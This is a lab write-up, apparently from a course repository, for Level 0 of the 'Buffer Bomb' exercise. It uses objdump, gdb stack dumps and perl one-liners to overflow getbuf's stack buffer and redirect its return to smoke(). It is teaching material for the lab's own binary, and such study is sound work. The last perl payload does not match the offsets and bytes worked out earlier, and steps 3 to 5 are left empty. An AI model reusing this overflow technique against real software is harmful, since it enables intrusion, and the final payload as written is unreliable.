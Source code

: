 Buffer Bomb
===========
5 phases where you exploit the getbuf() function in C and manipulate the outcome of the bufbomb executable file.

<h1>Level 0</h1>

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```Smoke()```

To find the address of function ```Smoke()``` type:
   ```unix> objdump -d bufbomb | less```

   My address for ```Smoke()``` = 080490aa <smoke>:

   <b>WRITE DOWN the address for ```Smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
```
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu
(gdb) break *getbuf+17
(gdb) disas
(gdb) info registers
```

Gives you:

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
=> 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
   0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
(gdb) info registers
eax            0x45789ae        72845742
ecx            0x45789ae        72845742
edx            0x3c1048 3936328
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c0a        0x8048c0a <getbuf+6>
eflags         0x216    [ PF AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

<b>WRITE DOWN %ebp address as you will be using it later. In my case:</b>

%ebp = 0x55683350 

getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

Now quit out
```
(gdb) q
A debugging session is active.

        Inferior 1 [process 29088] will be killed.

Quit anyway? (y or n) y
```

Now create a test input file called "hex" and type a few commands
```
unix> perl -e 'print "A"x32 '> hex
unix> gdb bufbomb
(gdb) break getbuf
(gdb) break *getbuf+17
(gdb) run -u quinnliu < hex
(gdb) x/20x $esp
(gdb) disas
```

Gives you:

```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
=> 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
   0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
```

Next type these commands:
```
(gdb) continue
(gdb) disas # notice that we are now at <+17>
(gdb) x/20x $esp
```

Gives you:
```
(gdb) continue
Continuing.

Breakpoint 2, 0x08048c15 in getbuf ()
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
   0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
=> 0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
```

We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

startingAddressOfBufVariable = 0x55683328
%ebp = 0x55683350 # I told you to write this down earlier

buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
            = 0x55683350   +4 - 0x55683328
            # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
            = 2C # in hexadecimal = 44 bytes # in decimal

We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

Now quit out of gdb with ```q``` command and type:

```
bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
bash-4.1$ ls
bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
bash-4.1$ less hex2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

Now use hex2 as your new input in gdb:
```
unix> gdb bufbomb
(gdb) break getbuf
(gdb) break *getbuf+17
(gdb) run -u quinnliu < hex2
(gdb) x/20x $esp
(gdb) continue
(gdb) x/20x $esp 
```

On the second call of ```(gdb) x/20x $esp``` you will see:

```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
(gdb)
```

Understand that our input file is:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD```
where A = 41, B = 42, C = 43, & D = 44

So DDDD = 0x44444444

After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```Smoke()```!!!!!

Find where you wrote down the address of ```Smoke()``` earlier. Mine is = 080490aa

Because my machine is little endian the least significant byte is first.

So 
```08 04 90 aa``` => ```aa 90 04 08```

Now exit out of gdb:
```
bash-4.1$ perl -e 'print "AA"x32, "BB"x4, "CC"x4, "DD"x4, "aa900408" '>hex3
```



























```




3. create the buffer overflow string 


4. force the function getbuf to return to fucntion ```Smoke()``` instead of returning the value 1.


5. success!!!
